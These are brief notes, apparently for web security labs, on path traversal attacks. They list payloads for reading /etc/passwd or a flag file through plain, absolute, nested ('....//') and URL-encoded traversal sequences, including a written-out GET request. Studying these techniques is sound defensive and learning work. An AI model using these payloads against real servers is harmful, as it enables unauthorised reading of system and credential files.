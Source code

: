 # 1. Reading arbitrary files via path traversal
If given var/www/html/images
- -> Step back to var/www/html/images../../../flag.txt
- -> Or var/www/html/images/../../../etc/passwd

# 2. Traversal blocked with absolute path bypass
If given var/www/images/?filename=a.jpg
- ->Use absolute path var/www/images/?filename=/etc/passwd

# 3. Traversal sequence stripped (bypass by nested traversal)
Use nested traversal, e.g."....//" when server block "../"
-  ->e.g. GET /image/?filename=....//....//....//etc/passwd

# 4. Traversal sequence stripped (bypass by nested URL encode)
URL encode or double URL encode for:
- URL path
- filename param in multipart/form-data request
